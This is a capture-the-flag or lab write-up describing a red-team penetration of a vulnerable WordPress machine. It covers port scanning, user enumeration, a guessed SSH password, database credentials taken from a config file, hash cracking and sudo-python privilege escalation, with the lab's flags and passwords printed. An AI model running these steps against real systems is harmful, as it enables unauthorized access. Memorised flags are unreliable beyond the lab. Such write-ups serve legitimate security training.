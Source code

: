 # Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Service
 
Nmap scan results for the target machine reveal the below services and OS details:
 
```bash
$ nmap -sV -O 192.168.1.0/24
```
 
This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp – SSH – open 
    - Allows ssh logins and brute force attack using dictionary.
  - Port 80/tcp – HTTP – open
    - Allows for HTTP traffic and brute force attack using dictionary.
  - Port 111/tcp – rbcbind – open 
    - Allows to identify services that are running which help hackers in the reconnaissance step. RPC has several security vulnerabilities.
   - Port 139/tcp – netbios-ssn – open
     - Allows for network file sharing and potentially for reverse shell attack via Metasploit.     
   - Port 445/tcp – netbios-ssn – open
     - Allows for network file sharing and potentially for reverse shell attack via Metasploit. 
 
### Critical Vulnerabilities
The following vulnerabilities were identified on target 1:
 
#### WPScan
- WPScan was ran to enumerate version and users. 
- Wordpress is running version 3.7.8, which has many vulnerabilities: https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/version_id-224460/Wordpress-Wordpress-3.7.8.html
- Two users were found: Michael and Steven.

#### Brute Force Attack
 
- Michael password was guessed, and it was the same as his login, Michael. 
- Steven password was cracked using john the ripper after finding his has hash.
 
#### Python Shell Commands
- After logged in as Steven, I used the python bash commands to gain root access. 

## Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

  - `flag1.txt`: {b9bbcb33e11b80be759}
     - **Exploit Used:**
         - Used ls to look at the html directory an inspected the files in it. Found the flag in the html directory.
     - **Commands Used:**
```bash
$ cd /var/www/html
$ ls
$ cat service.html
```
  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
     - **Exploit Used:**
         - Weak password policy
         - Michael’s password was guessed while trying to login to his account using ssh.
         - The flag was found using the locate command. Flag was found in yhe /var/www directory.
     - **Commands used:**
```bash
$ ssh michael@192.168.1.110
>>> Password: Michael
$ locate flag
```                           
 - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used:**
        - Looking for information that sysadmin forgot to remove. 
        - Found the password for the MySQL database in the file wp_config.html located in the directory /var/www/html/wordpress: root and R@v3nSecurity.
        - Logged into the MySQL database and found the hashes for Michael’s and Steve’s password in the worpress database in the wp_users table.
        - Found flag 3 in the table wp_posts 
     - **Commands used:**
```bash
$ mysql -u root -p
>>> R@v3nSecurity
$ show database;
$ use wordpress;
$ show tables;
$ select * from wp_users;
$ select * from wp_posts where post_title=”flag3”;
```        
- `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
   - **Exploit Used**
       - Python Shell command
       - Steven’s password was cracked using john the riper after creating a file called wp_hashes.txt with his hash in it.
       - Once logged in as Steven, I still could not gain root access, but found out with sudo -l that he could run commands on raven without password.
       - Python scrip was run to gain access and flag 4 was found.
    - **Command used:**
```bash
$ john wp_hashes.txt. The password is pink84.
$ sudo -l
$ sudo /usr/bin/python
>>> import os
>>> os.system ("sudo su root"|)
$ whoami
```
 






